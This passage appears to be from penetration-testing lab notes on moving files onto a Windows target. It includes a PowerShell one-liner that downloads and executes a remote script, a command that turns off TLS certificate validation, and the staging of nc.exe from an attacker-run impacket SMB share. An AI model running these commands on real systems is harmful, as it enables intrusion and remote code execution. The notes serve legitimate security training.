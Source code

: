 ##### SSL not trusted

SSL/TLS secure channel certificate is not trusted sometimes. 

Bypass:

```powershell-session
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('https://raw.githubuserc ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

### SMB Downloads

Create SMB server on attacking machine:

```shell-session
jadu101@htb[/htb]$ sudo impacket-smbserver share -smb2support /tmp/smbshare

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Download file from smb server:

```cmd-session
C:\htb> copy \\192.168.220.133\share\nc.exe

        1 file(s) copied.
```

#### SMB with creds

Newer ver of windows block unauthenticated guess access so we need creds for transferring:

```cmd-session
C:\htb> copy \\192.168.220.133\share\nc.exe

You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
```
